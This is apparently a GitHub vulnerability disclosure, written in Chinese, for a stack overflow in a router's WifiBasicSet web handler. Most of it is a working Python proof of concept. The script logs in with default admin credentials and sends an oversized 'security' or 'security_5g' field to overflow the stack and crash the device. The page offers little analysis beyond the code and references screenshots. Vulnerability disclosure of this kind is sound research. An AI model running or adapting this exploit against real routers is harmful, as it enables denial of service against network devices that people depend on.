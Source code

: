 # Stack Overflow


漏洞位置，5G和非5G是一样的。
![alt text](./imgs/formWifiBasicSetBug.png)

可以覆盖掉栈上的变量从而导致DoS
![alt text](./imgs/formWifiBasicSetTrigger.png)

PoC
```python
import requests
from struct import pack

url = b"http://192.168.85.131/login/Auth"
vuln = b"http://192.168.85.131/goform/WifiBasicSet/"

data = {
    "username": "admin",
    "password": "admin",
}

#  0xdeadbeef
payload = "a" * 0x13c + ('b' * 4) + ('c' * 4)

vuln_data = {
    "security": payload,
    "hideSsid": "1",
    "ssid": "1",
    "security_5g": "1",
    "wrlPwd": "1",
    "hideSsid_5g": "1",
    "ssid_5g": "1",
    "wrlPwd_5g": "1",
}

vuln_data_5g = {
    "security_5g": payload,
    "hideSsid": "1",
    "ssid": "1",
    "security": "1",
    "wrlPwd": "1",
    "hideSsid_5g": "1",
    "ssid_5g": "1",
    "wrlPwd_5g": "1",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=vuln, data=vuln_data)
    print(resp.content)

def attack_5g():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=vuln, data=vuln_data_5g)
    print(resp.content)


attack()
```

debug
![alt text](./imgs/formWifiBasicSetDebug.png)


效果![alt text](./imgs/formWifiBasicSetResult.png)

